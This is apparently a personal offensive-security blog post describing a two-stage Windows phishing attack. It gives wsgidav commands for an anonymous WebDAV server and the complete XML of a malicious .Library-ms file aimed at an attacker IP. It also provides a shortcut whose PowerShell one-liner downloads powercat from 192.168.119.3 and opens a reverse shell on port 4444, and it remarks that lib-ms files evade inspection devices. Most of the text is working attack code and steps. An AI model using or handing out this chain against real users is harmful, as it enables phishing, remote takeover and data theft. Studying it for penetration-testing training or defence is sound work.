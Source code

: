 ```yaml
---
layout: post
title: Windows Library Files
titledate: 09/01/23
tags: ["infosec","offsec"]
---
```


#### Windows Library Files

First we create a 2 stage client side attack

Windows library file connecting to a _WebDAV_

When the victim receives a  _.Library-ms_ file and double clicks it the share will be mounted and appear as a regular directory

Inside we can put a .lnk  shortcut that  when clicked executes a Powershell reverse shell

<h3>Note most inspection devices may filter or catch malicious lnk files, but lib-ms files can go unnoticed</h3>

First we setup a WebDAV share

    $ pip3 install wsgidav
    $ mkdir /home/kali/webdav
    $ touch /home/kali/webdav/test.txt
    $/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/

Next we connect to our windows computer and create a _config.Library-ms_ file

<h4>craft Library-ms</h4>
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    </libraryDescription>
```

Now we add 2 tags inside the Library tag
```xml
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>    
```

isLibraryPinned pins the library to the nav panel in windows explorer
```xml
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>

    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
```
WebDAV share info
```xml
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
```
final WebDAV
```xml
    <?xml version="1.0" encoding="UTF-8"?>
    <libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
    <name>@windows.storage.dll,-34582</name>
    <version>6</version>
    <isLibraryPinned>true</isLibraryPinned>
    <iconReference>imageres.dll,-1003</iconReference>
    <templateInfo>
    <folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
    </templateInfo>
    <searchConnectorDescriptionList>
    <searchConnectorDescription>
    <isDefaultSaveLocation>true</isDefaultSaveLocation>
    <isSupported>false</isSupported>
    <simpleLocation>
    <url>http://192.168.119.2</url>
    </simpleLocation>
    </searchConnectorDescription>
    </searchConnectorDescriptionList>
    </libraryDescription>
```
<h4>execution</h4>

Now when we execute our lib-ms file we see our created test.txt file mounted in windows explorer

<h3>Note: to avoid issues with this attack, reset the file to final WebDAV</h3>

#### Reverse Shell

Next we create a shortcut on the Desktop for the user and point it to a powershell reverse shell

    powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.3:8000/powercat.ps1');
    powercat -c 192.168.119.3 -p 4444 -e powershell"

Now with our webDAV server running, our python server hosting powercat and a netcat listener listening ^^:> our webDAV share will be mounted and a user can click our shortcut to retrieve the powercat script to enable our reverse shell to connect

#### TODO

Look into swaks, smtp and pop3 exploitation